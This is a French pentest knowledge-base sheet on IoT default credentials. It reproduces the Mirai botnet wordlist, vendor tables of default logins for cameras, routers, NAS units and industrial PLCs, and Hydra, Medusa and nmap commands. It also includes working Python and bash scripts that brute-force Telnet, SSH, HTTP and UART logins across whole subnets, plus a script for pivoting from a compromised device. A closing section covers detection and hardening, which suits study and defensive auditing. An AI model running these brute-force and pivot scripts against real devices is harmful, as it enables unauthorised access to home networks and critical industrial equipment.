






# Mots de passe par défaut IoT

> [!info] **En 1 phrase**
> Les devices IoT embarquent des **mots de passe par défaut** (root/admin/123456…)
> souvent **jamais changés** — la wordlist **Mirai** en liste la plupart en clair.

---

## Overview

| Champ | Valeur |
|---|---|
| **Type** | Technique / Concept |
| **Domaine** | Hardware Hacking — IoT |
| **Niveau** | Beginner → Advanced |
| **OS cibles** | Linux embedded, RTOS, firmware propriétaire |
| **Matériel requis** | PC, connexion réseau (Telnet/SSH/Web), optionnel UART adapter |
| **Complexité** | Faible à Moyenne |
| **Dernière mise à jour** | 2026-08-16 |

> [!info] **Diagramme de contexte**
> ```mermaid
> flowchart LR
>     A["Device IoT (caméra, routeur…)"] --> B["Interface de login (Telnet/SSH/Web)"]
>     B --> C["Creds par défaut"]
>     C --> D["Shell root / accès admin"]
>     D --> E["Firmware dump, secrets, pivot"]
>     style A fill:#e1f5fe
>     style D fill:#c8e6c9
> ```

---

## Concept

> L'utilisation de **mots de passe par défaut** est l'une des vecteurs d'attaque les plus anciens et les plus efficaces contre les devices IoT. Le botnet **Mirai** (2016) a démontré qu'une simple liste de ~60 couples login/mot de passe pouvait compromettre des centaines de milliers de caméras, routeurs et DVR dans le monde entier. Cette technique exploite la négligence humaine : les fabricants incluent des credentials standard, et les utilisateurs ne les changent jamais.



> [!info] **Ce qu'on obtient**
> - Un **shell** (souvent root) sur le device → exfiltration firmware, config, secrets.
> - L'accès au **backend** de gestion (cloud camera, routeur) souvent avec les mêmes creds.
> - De quoi **propager** : beaucoup d'exploits IoT sont des combos « port telnet + creds par défaut ».
> - Un **point de pivot** vers d'autres segments réseau (routeur → LAN interne).

---

## Concepts fondamentaux

### Pourquoi les creds par défaut persistent

| Raison | Explication |
|---|---|
| **Fabrication en masse** | Les devices sont produits avec les mêmes credentials pour faciliter le support |
| **Pas de changement forcé** | L'utilisateur final n'est jamais obligé de changer le mot de passe au premier boot |
| **Documentation publique** | Les manuels listent les creds par défaut (parfois en PDF public) |
| **Complexité de changement** | L'interface de changement est parfois inexistante ou cachée |
| **Interopérabilité** | Les intégrateurs réutilisent les mêmes creds sur tous les sites |

### Types de devices vulnérables

| Catégorie | Exemples | Interface | Creds typiques |
|---|---|---|---|
| IP Cameras | Hikvision, Dahua, Axis | Web (80/443), Telnet (23) | admin/12345, admin/admin |
| Routeurs | TP-Link, D-Link, Netgear | Web (80), Telnet (23) | admin/admin, admin/password |
| DVR/NVR | Dahua, Hikvision, Uniview | Web (80), Telnet (23) | admin/admin, 888888/888888 |
| IoT Hubs | SmartThings, Hubitat | Web (80), SSH (22) | admin/changeme |
| Impressantes | HP, Canon, Brother | Web (80), Telnet (9100) | admin/(blank), admin/admin |
| Industrial | Siemens, Schneider, Allen-Bradley | Web (80), SSH (22) | admin/admin, user/user |
| NAS | Synology, QNAP, Western Digital | Web (443), SSH (22) | admin/(blank), admin/admin |

### Mécanismes d'attaque



---

## Rechercher un mot de passe par défaut

> Base de référence en ligne : **[defpass.com](https://www.defpass.com)** — recherche de mot de passe
> par défaut par fabricant/modèle de device IoT.

```text
defpass.com : tu entres le modèle / la marque → mots de passe par défaut listés
SecLists Mirai : wordlist officielle du botnet Mirai (ci-dessous)
cirt.net/passwords : base de données de credentials par défaut
SCADAPASS : credentials ICS/SCADA spécifiques
defaultcredentials.org : base de données open source
```

```powershell
# Télécharger la wordlist Mirai depuis SecLists
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Malware/mirai-botnet.txt" -OutFile mirai-botnet.txt

# Télécharger SCADAPASS pour l'industriel
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/scadastrangelove/SCADAPASS/master/scadapass.csv" -OutFile scadapass.csv
```

---

## La wordlist Mirai

> Les couples login/mot de passe utilisés par le **botnet Mirai** (2016, caméras/DVR) —
> c'est la liste de référence des creds faibles réellement présents sur l'Internet IoT.

```text
root xc3511
root vizxv
root admin
admin admin
root 888888
root xmhdipc
root default
root jauntech
root 123456
root 54321
support support
root (none)
admin password
root root
root 12345
user user
admin (none)
root pass
admin admin1234
root 1111
admin smcadmin
admin 1111
root 666666
root password
root 1234
root klv123
Administrator admin
service service
supervisor supervisor
guest guest
guest 12345
admin1 password
administrator 1234
666666 666666
888888 888888
ubnt ubnt
root klv1234
root Zte521
root hi3518
root jvbzd
root anko
root zlxx.
root 7ujMko0vizxv
root 7ujMko0admin
root system
root ikwb
root dreambox
root user
root realtek
root 000000
admin 1111111
admin 1234
admin 12345
admin 54321
admin 123456
admin 7ujMko0admin
admin pass
admin meinsm
tech tech
mother fucker
```

---

## Tableau détaillé des mots de passe par défaut

### Caméras IP

| Fabricant | Modèle | Login | Mot de passe | Interface | Source |
|---|---|---|---|---|---|
| Hikvision | DS-2CD series | admin | admin123 | Web (80) | Default credentials DB |
| Dahua | IP Camera / NVR | admin | admin | Web (80) | Default credentials DB |
| Axis | Cameras diverses | root | pass | Telnet/SSH (23/22) | Manufacturer docs |
| Foscam | FI8918W, FI9831P | admin | admin | Web (80) | defpass.com |
| Reolink | RLC-410, RLC-520 | admin | admin | Web (80) | Manufacturer docs |
| Amcrest | IP2M-841 | admin | admin | Web (80) | Default credentials DB |
| Mobotix | IP cameras | admin | meinsm | Web (80) | Mirai wordlist |
| Sony | IPELA series | admin | (blank) | Web (80) | Manufacturer docs |
| Bosch | IP cameras | admin | (blank) | Web (80) | Manufacturer docs |
| Vivotek | FD8134 | root | (blank) | Web (80) | defpass.com |

### Routeurs / Access Points

| Fabricant | Modèle | Login | Mot de passe | Interface | Source |
|---|---|---|---|---|---|
| TP-Link | Archer series | admin | admin | Web (80) | Manufacturer docs |
| D-Link | DIR-615, DIR-825 | admin | admin | Web (80) | defpass.com |
| Netgear | WNR2000, R7000 | admin | password | Web (80) | Manufacturer docs |
| ASUS | RT-N66U, RT-AC68U | admin | admin | Web (80) | Manufacturer docs |
| Ubiquiti | UniFi AP | ubnt | ubnt | Web (22) | Mirai wordlist |
| MikroTik | RouterOS (hAP) | admin | (blank) | Web/SSH (80/22) | Manufacturer docs |
| Cisco | IOS (divers) | admin | (blank) | Telnet/SSH (23/22) | CIRT.net |
| Linksys | WRT54G, EA series | admin | admin | Web (80) | Manufacturer docs |
| ZTE | ZXHN H108N | user | user | Web (80) | Mirai wordlist |
| Huawei | HG8245H | root | admin | Web/SSH (80/22) | Manufacturer docs |

### DVR / NVR

| Fabricant | Modèle | Login | Mot de passe | Interface | Source |
|---|---|---|---|---|---|
| Dahua | DVR/NVR (ex. HCVR) | admin | admin | Web (37777) | Default credentials DB |
| Hikvision | DS-7600NI series | admin | 12345 | Web (80) | Manufacturer docs |
| Uniview | NVR series | admin | 123456 | Web (80) | defpass.com |
| Samsung | SRD series | admin | 4321 | Web (80) | Manufacturer docs |
| Bosch | DIVAR IP | admin | (blank) | Web (80) | Manufacturer docs |
| Flir | Lorex DVR | admin | (blank) | Web (80) | Default credentials DB |
| Q-See | QT series | admin | admin | Web (80) | defpass.com |

### IoT Hubs / Domotique

| Fabricant | Modèle | Login | Mot de passe | Interface | Source |
|---|---|---|---|---|---|
| SmartThings | Hub v2/v3 | admin | (blank) | Web (80) | Manufacturer docs |
| Hubitat | Elevation C-7 | admin | admin | Web (80) | Manufacturer docs |
| Home Assistant | OS (défaut) | root | (blank) | SSH (22) | HA docs |
| OpenHAB | Runtime | openhab | habopen | Web (80) | OpenHAB docs |
| Vera | Edge / Plus | admin | admin | Web (80) | Manufacturer docs |
| Wink | Hub 2 | — | cloud only | API | Manufacturer docs |

### Industrial / ICS / SCADA

| Fabricant | Modèle | Login | Mot de passe | Interface | Source |
|---|---|---|---|---|---|
| Siemens | S7-1200/1500 PLC | admin | (blank) | Web (80) | SCADAPASS |
| Schneider | Modicon M340 | USER | USER | Web (80) | SCADAPASS |
| Allen-Bradley | CompactLogix | admin | (blank) | Web (80) | SCADAPASS |
| ABB | AC500 PLC | admin | (blank) | Web (80) | SCADAPASS |
| GE | Fanuc / Proficy | GE Proficy | (blank) | Web (80) | SCADAPASS |
| Mitsubishi | MELSEC | (blank) | (blank) | Web (80) | SCADAPASS |
| Unitronics | Vision PLC | admin | 1111 | Web (20256) | CISA advisory |
| Moxa | NPort Serial | root | (blank) | Telnet (23) | SCADAPASS |
| Beckhoff | TwinCAT | Administrator | (blank) | ADS (48898) | SCADAPASS |
| Advantech | WISE series | admin | admin | Web (80) | CIRT.net |

### NAS / Stockage

| Fabricant | Modèle | Login | Mot de passe | Interface | Source |
|---|---|---|---|---|---|
| Synology | DS series | admin | (blank) | Web (5000) | Manufacturer docs |
| QNAP | TS series | admin | admin | Web (80) | Manufacturer docs |
| Western Digital | My Cloud | admin | (blank) | Web (80) | Manufacturer docs |
| Buffalo | LinkStation | admin | password | Web (80) | Manufacturer docs |
| TerraMaster | F2-220 | admin | admin | Web (8181) | Manufacturer docs |

### Imprimantes

| Fabricant | Modèle | Login | Mot de passe | Interface | Source |
|---|---|---|---|---|---|
| HP | LaserJet / OfficeJet | admin | (blank) | Web (80), Telnet (9100) | HP docs |
| Canon | imageRUNNER | admin | admin | Web (80) | Manufacturer docs |
| Brother | HL / MFC series | admin | access | Web (80) | Manufacturer docs |
| Epson | WorkForce series | (blank) | (blank) | Web (80) | Manufacturer docs |
| Xerox | Phaser / WorkCentre | admin | 1111 | Web (80) | Manufacturer docs |
| Lexmark | MS / MX series | admin | (blank) | Web (80) | Manufacturer docs |

> [!note] À vérifier
> Les credentials spécifiques peuvent varier selon la version du firmware et la région. Toujours vérifier la documentation officielle du fabricant avant de tester.

---

## Comment l'exploiter

### Scan réseau et identification

```bash
# Scanner les ports ouverts (Telnet, SSH, Web)
nmap -sV -p 23,22,80,443,8080 <target_ip>

# Détection spécifique des services IoT
nmap -sV --script=banner -p 23,22 <target_ip>

# Scan rapide de tout le sous-réseau
nmap -sn 192.168.1.0/24 --open
```

### Brute force Telnet

```bash
# Test telnet rapide sur un device
nc -z <IP> 23 && echo "telnet ouvert"

# Brute force de la console avec Hydra
hydra -l root -P mirai-botnet.txt telnet://<IP>

# Ou avec Ncrack
ncrake -p 23 --user root -P mirai-botnet.txt <IP>
```

### Brute force SSH

```bash
# Hydra pour SSH
hydra -l admin -P mirai-botnet.txt ssh://<IP>

# Medusa pour SSH
medusa -h <IP> -u admin -P mirai-botnet.txt -M ssh
```

### Brute force Web (HTTP Basic Auth / Login form)

```bash
# Hydra pour HTTP Basic Auth
hydra -l admin -P mirai-botnet.txt <IP> http-get /

# Hydra pour formulaire de login
hydra -l admin -P mirai-botnet.txt <IP> http-post-form "/login:user=^USER^&pass=^PASS^:F=incorrect"
```

### Brute force via UART

```python
#!/usr/bin/env python3
"""Brute force via UART (console série)."""

import serial
import time

SERIAL_PORT = "/dev/ttyUSB0"
BAUDRATE = 115200

def try_credentials(serial_port, username, password):
    """Test un couple username/password via UART."""
    serial_port.write(f"{username}\n".encode())
    time.sleep(0.5)
    serial_port.write(f"{password}\n".encode())
    time.sleep(0.5)
    response = serial_port.read(serial_port.in_waiting or 1024).decode(errors='ignore')
    # Vérifier si on a obtenu un shell
    if any(marker in response for marker in ["#", "$", "~", "shell", "busybox"]):
        return True
    return False

def brute_force_uart(wordlist_path):
    """Brute force un device via UART."""
    ser = serial.Serial(SERIAL_PORT, BAUDRATE, timeout=2)
    time.sleep(1)

    with open(wordlist_path, 'r') as f:
        for line in f:
            line = line.strip()
            if not line or ' ' not in line:
                continue
            username, password = line.split(' ', 1)
            print(f"[*] Testing: {username}/{password}")
            if try_credentials(ser, username, password):
                print(f"[+] SUCCESS: {username}/{password}")
                ser.close()
                return username, password
    ser.close()
    print("[-] No valid credentials found")
    return None

if __name__ == "__main__":
    brute_force_uart("mirai-botnet.txt")
```

- Combiner avec la **recherche de ports** : Telnet (23), SSH (22), web (80/443), **UART** (hors réseau).
- Penser aux **interfaces IoT propriétaires** : la plupart des caméras ont leur propre serveur d'applet (ex. : `player.jsp`, protocoles propriétaires).

---

## Configuration

### Adaptateurs pour UART (accès hors réseau)

| Adaptateur | Interface | Voltage | Prix | Usage |
|---|---|---|---|---|
| CH341A | USB-SPI/I2C/UART | 3.3V/5V | ~$3 | Lecture firmware, console série |
| CP2102 | USB-UART | 3.3V | ~$5 | Console série, debug |
| FTDI FT232RL | USB-UART | 3.3V/5V | ~$10 | Console série, programming |
| Bus Pirate | USB multi-protocole | 3.3V/5V | ~$30 | Polyvalent, tous protocoles |
| Tigard | USB multi-protocole | 3.3V/5V | ~$50 | JTAG, SPI, UART |

### Outils logiciels

```bash
# Connexion à la console série
screen /dev/ttyUSB0 115200

# Ou avec minicom
minicom -D /dev/ttyUSB0 -b 115200

# Ou avec picocom (plus léger)
picocom -b 115200 /dev/ttyUSB0

# Ou avec PuTTY (Windows)
putty -serial COM3 -speed 115200
```

---

## Exemples pratiques

### Débutant — Test rapide de creds Mirai

```bash
# Étape 1 : Scanner les ports
nmap -p 23,22,80,8080 192.168.1.0/24 --open

# Étape 2 : Tester manuellement un device trouvé
telnet 192.168.1.100
# Essayer : root / xc3511
# Essayer : admin / admin
# Essayer : root / (vide)
```

### Intermédiaire — Hydra sur plusieurs devices

```bash
#!/bin/bash
# Scan et brute force automatique de tout un sous-réseau

SUBNET="192.168.1"
WORDLIST="mirai-botnet.txt"

for i in $(seq 1 254); do
    IP="$SUBNET.$i"
    if nc -z -w1 $IP 23 2>/dev/null; then
        echo "[+] Telnet ouvert sur $IP — brute force..."
        hydra -l root -P $WORDLIST -t 4 telnet://$IP 2>/dev/null | grep "login:"
    fi
done
```

### Avancé — Script Python complet d'exploitation IoT

```python
#!/usr/bin/env python3
"""Exploitation complète d'un device IoT via credentials par défaut."""

import paramiko
import telnetlib
import requests
import sys
import time

MIRAI_CREDS = [
    ("root", "xc3511"), ("root", "vizxv"), ("root", "admin"),
    ("admin", "admin"), ("root", "888888"), ("admin", "password"),
    ("root", "123456"), ("root", "root"), ("root", "1234"),
    ("admin", "admin1234"), ("ubnt", "ubnt"), ("root", "000000"),
]

def try_telnet(ip, username, password, port=23):
    """Tester des credentials via Telnet."""
    try:
        tn = telnetlib.Telnet(ip, port, timeout=3)
        tn.read_until(b"login:", timeout=3)
        tn.write(f"{username}\n".encode())
        tn.read_until(b"Password:", timeout=3)
        tn.write(f"{password}\n".encode())
        time.sleep(1)
        output = tn.read_very_eager().decode(errors='ignore')
        if any(s in output for s in ["#", "$", "~", "BusyBox"]):
            tn.close()
            return True, output
        tn.close()
    except Exception:
        pass
    return False, ""

def try_ssh(ip, username, password, port=22):
    """Tester des credentials via SSH."""
    try:
        client = paramiko.SSHClient()
        client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        client.connect(ip, port=port, username=username, password=password, timeout=3)
        client.close()
        return True
    except Exception:
        return False

def try_web(ip, username, password, port=80):
    """Tester des credentials via HTTP Basic Auth."""
    try:
        url = f"http://{ip}:{port}/"
        r = requests.get(url, auth=(username, password), timeout=3)
        return r.status_code == 200
    except Exception:
        return False

def exploit_device(ip):
    """Tester tous les protocoles et credentials sur un device."""
    for username, password in MIRAI_CREDS:
        # Telnet
        success, output = try_telnet(ip, username, password)
        if success:
            return "telnet", username, password, output

        # SSH
        if try_ssh(ip, username, password):
            return "ssh", username, password, ""

        # Web
        if try_web(ip, username, password):
            return "web", username, password, ""

    return None, None, None, ""

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} <target_ip>")
        sys.exit(1)

    target = sys.argv[1]
    print(f"[*] Exploitation de {target}...")
    protocol, user, pwd, output = exploit_device(target)

    if protocol:
        print(f"[+] SUCCÈS via {protocol}: {user}/{pwd}")
        if output:
            print(f"[+] Sortie:\n{output}")
    else:
        print(f"[-] Aucun credential trouvé sur {target}")
```

### Expert — Pivot réseau depuis un IoT compromis

```python
#!/usr/bin/env python3
"""Pivot réseau : depuis un IoT compromis, scanner le LAN interne."""

import paramiko
import subprocess

def pivot_scan(compromised_ip, ssh_user, ssh_pass, subnet="192.168.2"):
    """Se connecter au device compromis et scanner le réseau interne."""
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    client.connect(compromised_ip, username=ssh_user, password=ssh_pass)

    # Lancer un scan nmap depuis le device compromis
    stdin, stdout, stderr = client.exec_command(
        f"nmap -sn {subnet}.0/24 2>/dev/null || arp -a"
    )
    print(f"[*] Résultat du scan depuis {compromised_ip}:")
    print(stdout.read().decode())

    # Lister les interfaces réseau
    stdin, stdout, stderr = client.exec_command("ip addr show || ifconfig")
    print("[*] Interfaces réseau:")
    print(stdout.read().decode())

    client.close()
```

---

## Workflow complet (scénario pas à pas)



### Étape 1 — Scan réseau

| Action | Commande | Résultat attendu |
|---|---|---|
| Scan ping | `nmap -sn 192.168.1.0/24` | Liste des IPs actives |
| Scan ports | `nmap -sV -p 23,22,80,443,8080 <IP>` | Ports ouverts + versions |

### Étape 2 — Test credentials

| Action | Commande | Résultat attendu |
|---|---|---|
| Hydra Telnet | `hydra -l root -P mirai.txt telnet://<IP>` | Mot de passe trouvé |
| Hydra SSH | `hydra -l admin -P mirai.txt ssh://<IP>` | Mot de passe trouvé |
| Hydra Web | `hydra -l admin -P mirai.txt <IP> http-get /` | Mot de passe trouvé |

### Étape 3 — Exploitation

| Action | Commande | Résultat attendu |
|---|---|---|
| Connexion Telnet | `telnet <IP>` → `root` → `password` | Shell root |
| Connexion SSH | `ssh root@<IP>` | Shell root |
| Connexion Web | Navigateur → `http://<IP>` → login | Panel admin |

---

## Scénarios avancés

### Scénario 1 — Audit complet d'un parc IoT (caméras IP)

| Élément | Détail |
|---|---|
| **Objectif** | Évaluer la sécurité de 50 caméras IP dans un site |
| **Matériel** | PC, nmap, Hydra, Mirai wordlist |
| **Étapes** | 1. Scan réseau 2. Identification caméras 3. Test Mirai creds 4. Dump firmware 5. Rapport |
| **Résultat** | % de devices compromis, CVE identifiés, recommandations |
| **Difficulté** | |



### Scénario 2 — Compromission d'un routeur et pivot vers LAN

| Élément | Détail |
|---|---|
| **Objectif** | Compromettre un routeur IoT pour pivoter vers le réseau interne |
| **Matériel** | PC, nmap, Hydra, SSH client |
| **Étapes** | 1. Identifier le routeur 2. Tester creds par défaut 3. Obtenir shell 4. Scanner le LAN interne 5. Pivoter vers d'autres devices |
| **Résultat** | Accès au réseau interne, liste des hosts internes |
| **Difficulté** | |

---

## Cybersecurity use cases

| Use case | Sévérité | Matériel requis | Impact |
|---|---|---|---|
| Scan + brute force IoT | Haute | PC + Hydra | Accès non autorisé |
| Compromission routeur | Critique | PC | Accès réseau interne |
| Dump firmware | Moyenne | PC + UART | Extraction de secrets |
| Pivot réseau | Critique | PC + SSH | Mouvement latéral |

| Phase pentest | Ce que permet cette technique |
|---|---|
| Recon | Scan réseau, identification des devices IoT |
| Accès initial | Connexion via creds par défaut |
| Maintien d'accès | Installation de backdoor sur device compromis |
| Évasion | Utilisation du device compromis comme pivot |

---

## MITRE ATT&CK

| Technique ID | Nom | Catégorie | Applicabilité |
|---|---|---|---|
| T1078 | Valid Accounts | Initial Access | Connexion avec credentials par défaut |
| T1195.002 | Supply Chain Compromise: Compromise Software Supply Chain | Initial Access | Firmware IoT avec creds intégrés |
| T1552.001 | Credentials In Files: Credentials In Files | Credential Access | Creds dans la documentation/firmware |
| T1190 | Exploit Public-Facing Application | Initial Access | Login web admin IoT |
| T1694.001 | Insecure Credentials: Default Credentials (ICS) | Initial Access | Creds par défaut sur devices industriels |



### Mapping détaillé

| Phase MITRE | Technique | Cette fiche couvre |
|---|---|---|
| Initial Access | T1078 Valid Accounts | Connexion avec root/admin + Mirai creds |
| Credential Access | T1552.001 | Extraction de creds par défaut de la docs/firmware |
| Reconnaissance | T1592 | Scan réseau pour identifier les devices |
| Collection | T1005 | Dump firmware et config depuis device compromis |

---

## Defensive Security

### Détection

| Signal de détection | Source | Fiabilité |
|---|---|---|
| Tentatives de login multiples | Logs Telnet/SSH | Haute |
| Connexions depuis des IPs inconnues | Logs firewall | Moyenne |
| Login réussi avec creds admin | Logs d'authentification | Haute |
| Scan de ports sur le réseau | IDS/IPS | Moyenne |
| Changement de configuration | Logs device | Haute |

| Indicateur | Log / Capteur | Seuil d'alerte |
|---|---|---|
| Tentatives de login échouées | /var/log/auth.log | > 5 en 1 minute |
| Connexion Telnet depuis l'extérieur | Firewall logs | Tout accès Telnet |
| Login root réussi | /var/log/secure | > 1 connexion root |

### Prévention

| Mesure | Efficacité | Coût | Priorité |
|---|---|---|---|
| Forcer changement au premier boot | Élevée | Faible | Haute |
| Désactiver Telnet par défaut | Élevée | Faible | Haute |
| Rate limiting / lockout | Moyenne | Faible | Moyenne |
| Désactiver login root | Moyenne | Faible | Moyenne |
| Segmentation réseau | Élevée | Moyenne | Haute |
| MFA pour les accès admin | Élevée | Moyenne | Haute |
| Monitoring des tentatives brute force | Moyenne | Faible | Moyenne |

### Durcissement (hardening)

```bash
# Désactiver Telnet sur un device Linux embedded
systemctl disable telnet.socket
systemctl stop telnet.socket

# Forcer le changement de mot de passe au premier boot (example pour un routeur)
# (dépend du firmware — vérifier la doc fabricant)

# Désactiver le login root via SSH
# /etc/ssh/sshd_config :
PermitRootLogin no
PasswordAuthentication no

# Activer fail2ban pour le SSH
apt install fail2ban
